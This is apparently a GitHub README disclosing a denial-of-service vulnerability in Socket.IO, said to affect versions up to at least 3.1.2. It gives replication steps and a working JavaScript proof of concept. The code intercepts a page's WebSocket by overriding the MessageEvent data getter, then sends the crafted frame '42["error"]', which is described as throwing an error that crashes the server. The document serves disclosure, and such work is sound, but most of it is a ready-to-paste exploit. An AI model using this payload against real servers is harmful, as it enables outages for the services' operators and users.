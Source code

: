 # Socket.IO CVE
A carefully crafted message sent from a connected client can throw an error on the server, causing denial of service

## Replication
- In the code below, the attack will commence as soon as soon as the [WebSocket](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket) instance is intercepted
- One can run this repository, open the url it would be hosted in a browser and paste the code in to execute the attack
- You can wait for a probe from the server or initiate some interaction just to access the websocket to send the maliciously crafted text
- This works to at least `3.1.2` and it works because of unfortunately handled events from [socket.io](https://github.com/socketio/socket.io)
```js
function listen(fn){ //this function from my answer in https://stackoverflow.com/a/70267397/10697213
  fn = fn || console.log;

  let property = Object.getOwnPropertyDescriptor(MessageEvent.prototype, "data");
  
  const data = property.get;

  // wrapper that replaces getter
  function lookAtMessage() {

    let socket = this.currentTarget instanceof WebSocket;

    if (!socket) {
      return data.call(this);
    }

    let msg = data.call(this);

    Object.defineProperty(this, "data", { value: msg } ); //anti-loop
    fn({ data: msg, socket:this.currentTarget, event:this });
    return msg;
  }
  
  property.get = lookAtMessage;
  
  Object.defineProperty(MessageEvent.prototype, "data", property);
}

listen( ({data,socket}) => {
  console.log(data)
  window.server=socket
  //2 lines above contain pointless logging
  server.send('42["error"]') //THIS IS THE CRITICAL LINE
})
```